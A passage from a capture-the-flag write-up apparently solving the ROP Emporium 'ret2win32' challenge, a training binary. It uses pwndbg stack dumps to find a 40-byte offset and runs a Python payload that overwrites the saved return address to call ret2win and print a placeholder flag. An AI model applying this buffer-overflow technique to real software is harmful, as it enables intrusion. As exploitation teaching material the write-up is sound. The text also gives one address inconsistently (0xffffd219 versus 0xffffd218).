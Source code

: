 ```c
07:001c│     0xffffd1fc ◂— 'DDDD\n'
───────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0 0x8048616 pwnme+105
   f 1 0x8048590 main+74
   f 2 0xf7dd9ee5 __libc_start_main+245
────────────────────────────────────────────────────────────────────────────────────────────────────
```

Now lets check our ```Base Pointer``` values,

```c
pwndbg> x/2wx $ebp
0xffffd218:	0xffffd228	0x08048590
```

The first one is ```BP``` and the second one is ```IP```

Lets check our stack values,

```c
pwndbg> x/30wx $esp
0xffffd1e0:	0x00000000	0xffffd1f0	0x00000038	0x00000004
0xffffd1f0:	0x41414141	0x42424242	0x43434343	0x44444444
0xffffd200:	0x0000000a	0x00000000	0x00000000	0x00000000
0xffffd210:	0x080486f8	0x00000000	0xffffd228	0x08048590
0xffffd220:	0xf7fe22f0	0xffffd240	0x00000000	0xf7dd9ee5
0xffffd230:	0xf7fa6000	0xf7fa6000	0x00000000	0xf7dd9ee5
0xffffd240:	0x00000001	0xffffd2d4	0xffffd2dc	0xffffd264
0xffffd250:	0xf7fa6000	0x00000000
```

Our input in buffer starts at ```0xffffd1f0```

Our ```BP``` is at ```0xffffd219```

Lets find the space between ```buffer``` and ```BP``` now,

```c
>>> print(0xffffd218-0xffffd1f0)
40
```

So we have to pass ```40 bytes``` of junk to reach ```Base Pointer```

We need to overwrite ```BP``` with 4 bytes and ```IP``` with address of ```ret2win``` to call the function by redirecting it

Address of ```ret2win``` is ```0x0804862c```

Lets try our exploit,

```c
ra@moni~/ret2win32> python -c "print('A'*40+'B'*4+'\x2c\x86\x04\x08')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB,
ra@moni~/ret2win32> python -c "print('A'*40+'B'*4+'\x2c\x86\x04\x08')"|./ret2win32
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
fish: Process 5738, “./ret2win32” “python -c "print('A'*40+'B'*4+'…” terminated by signal SIGSEGV (Address boundary error)
```
